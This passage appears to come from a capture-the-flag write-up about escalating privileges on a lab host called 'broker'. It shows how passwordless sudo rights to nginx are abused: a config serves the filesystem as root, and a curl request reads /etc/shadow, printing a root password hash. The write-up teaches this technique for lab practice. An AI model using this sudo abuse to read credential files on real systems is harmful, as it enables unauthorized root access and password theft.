 ### Enumeration

The activemq user can run `nginx` as root with no password:

```
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx

```

### Create Malicious Webserver

#### File Read

With `sudo nginx`, I solved this by standing up my own server as root. [This page](https://www.nginx.com/resources/wiki/start/topics/examples/full/) has example configs. Mine is quite simple. `user` will be root. It must have an `events` section to define the number of workers, so I’ll pick something arbitrary. Then I make an `http` section with a server that is hosted from the system root:

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}

```

I’ll start the webserver by running `nginx` with `-c` and the full path to this file.

```
activemq@broker:~$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf

```

Then I can query this webserver on 1337 and read files as root:

```
activemq@broker:~$ curl localhost:1337/etc/shadow
root:$y$j9T$S6NkiGlTDU3IUcdBZEjJe0$sSHRUiGL/v4FZkWjU.HZ6cX2vsMY/rdFBTt25LbGxf1:19666:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
```